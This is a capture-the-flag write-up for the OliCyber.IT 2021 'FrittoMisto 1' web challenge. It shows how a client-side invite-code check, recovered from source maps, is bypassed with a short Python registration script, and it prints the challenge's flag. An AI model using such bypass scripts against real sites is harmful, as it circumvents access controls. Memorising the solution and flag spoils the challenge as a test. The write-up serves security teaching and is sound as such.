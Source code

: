 # OliCyber.IT 2021 – National Competition

## FrittoMisto 1 - Writeup


## Challenge description
```
Il Gabibbo ha contattato diversi sviluppatori per sistemare il design del suo sito, tuttavia sembra si sia dimenticato di invitarci, riesci a farci qualcosa?

Sito: http://frittomisto.challs.olicyber.it/
```

The challenge presents a web application under construction, with the ability to register and access a private area.
However, in order to register, an **invite code** is required.

---

## Solution

When attempting to register, the error message *"Codice di invito invalido!"* (*Invalid invite code!*) appears **before** any request is sent to the API.
This indicates that the validation happens **client-side**.

While there may also be server-side validation, this client-side check can be reversed to discover the correct invite code.

The site is built using [React](https://reactjs.org/). Since the code is bundled with [Webpack](https://webpack.js.org/), the exported JavaScript is obfuscated. Fortunately, **source maps** are enabled, meaning the original `.js` files can be inspected through the browser DevTools.

Inside the code, we find the invite validation logic:

```js
if (inviteCode.length !== 10) {
  console.log("Codice di invito invalido!");
  props.setError("Codice di invito invalido!");
  return;
}
for (let idx = 0; idx < 10; idx++) {
  if (inviteCode.charCodeAt(idx) != idx) {
    console.log("Codice di invito invalido!");
    props.setError("Codice di invito invalido!");
    return;
  }
}
```

From this snippet we learn:

* The invite code must be exactly **10 characters long**.
* Each character must match the ASCII values `0x00, 0x01, ..., 0x09`.

Thus, the correct invite string is:

```
\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09
```

---

## Exploit

The simplest way to register is by making a direct API request with Python:

```python
import requests
import random
import string
import re

url = 'http://frittomisto.challs.olicyber.it/api/register'

username, password = ["".join(random.choices(string.ascii_uppercase + string.digits, k=10)) for _ in range(2)]

r=requests.post(url, json={
    "username": f"{username}",
    "password": f"{password}",
    "invite": "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09"
})

flag = re.findall(r'flag\{.*?}', r.text)
if flag:
    print(flag[0])
```
---
## Flag

By running the exploit we can retrieve the flag.
```
flag{b3nv3nut0_n3l_m10_f4nt4st1c0_s1t0_bu0n_l4v0r0}
```

---
## Key Takeaway

This challenge demonstrates the danger of relying on **client-side validation**. Even if server-side checks exist, leaving validation logic exposed in the frontend allows attackers to reverse-engineer it and recover the correct values.
